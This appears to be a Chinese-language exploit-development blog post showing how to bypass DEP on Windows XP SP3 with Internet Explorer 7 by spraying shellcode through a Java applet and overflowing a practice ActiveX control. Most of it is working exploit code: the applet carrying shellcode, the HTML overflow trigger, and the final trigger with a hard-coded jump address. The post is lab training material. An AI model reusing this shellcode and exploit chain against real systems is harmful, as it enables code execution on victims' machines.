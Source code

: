 ```yaml
---
layout:		post
title:		利用Java applet挑战DEP
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008 
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>JRE版本: 1.4.2_06
<!-- more -->


### 0x00 前期准备

新建一个Java applet

```
//Shellcode.java
import java.applet.*;
import java.awt.*;

public class Shellcode extends Applet{
    public void init(){
        Runtime.getRuntime().gc();
        StringBuffer buffer=new StringBuffer(255);

        buffer.append("\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            "\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            "\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            "\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            "\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            "\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            "\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            "\u90d7");
    }
}
```

编译生成*.class文件

```
> javac path/to/*.java -target 1.1
```

新建文本文件, 贴入以下代码, 更名为test.html

```
<html>
<body>
<applet code=Shellcode.class width=300 height=50></applet>
<script>alert("开始溢出!");</script>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s+="\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```

将VulnerAX_DEP.ocx和以上两个文件一起放到wwwroot目录, 注册*.ocx文件


### 0x01 exploit

打开IE7.0, 访问http://127.0.0.1/test.html, 再双击打开test.html文件

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x00.png)

来到这里OD附加上去, 选择"E"打开模块, ocx成功加载

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x01.png)

检索shellcode的开始几个字节, 定位到0x1454D9FC

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x02.png)

修改test.html

```
<html>
<body>
<object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>
<script>
var s="\u9090";
while(s.length<54){
	s+="\u9090";
}
s+="\uD9FC\u1454";
test.test(s);
</script>
</body>
</html>
```

关闭调试, 直接运行, pwn~

![](/assets/img/exploit/2017-12-26-disable-dep-java-applet/0x03.png)